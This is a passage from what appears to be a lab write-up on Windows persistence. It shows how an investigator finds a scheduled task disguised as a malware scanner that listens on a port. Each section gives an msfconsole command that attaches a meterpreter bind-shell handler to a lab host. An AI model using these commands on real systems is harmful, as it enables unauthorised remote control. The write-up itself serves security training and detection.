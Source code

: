 **ANSWER:**

This persistence method allows an attacker to obtain a meterpreter shell
with:

```bash
msfconsole -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/bind_tcp; set RHOST 192.168.2.114; set LPORT 34567; run'
```

## Scheduled Tasks

Tasks can be created to execute a malicious program on system startup or
at certain days and times. 

Typing `schtasks` shows a malware_scan task

Getting more info with `schtasks /query /TN malware_scan /v /FO list`
shows it is scheduled to run hourly and also the location of the file:

`C:\Users\vm-user\Dev\tools\windows\winpmem\executable\binaries\malware_destroyer_v2.exe`

Typing `ps | measure-object` , then starting the file, and then
running `ps | measure-object` again shows the file starts a process

Typing `ps` shows the process it started:

**malware_destroyer_v2** along with its pid

Running `netstat -ano | findstr <pid>`  shows it's listening on
port 9876:

```powershell
TCP        0.0.0.0:9876        0.0.0.0:0    LISTENING          <pid>
```

Connect to it with `netcat` and nothing happens.  It is listening for
something but we don't know what...

**ANALYSIS:**

The program opens a port on the system, is configured to execute every
hour, and attempts to blend in by appearing to be a malware scanner.  It
doesn't respond to connections initiated with netcat, most likely
listening for a more advanced tool.

**ANSWER:**

This persistence method allows an attacker to obtain a meterpreter shell
with:

```bash
msfconsole -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/bind_tcp; set RHOST 192.168.2.114; set LPORT 9876; run'
```

## Accessibility Features

There are several accessibility features that can be abused by an
attacker to maintain access to a system. 

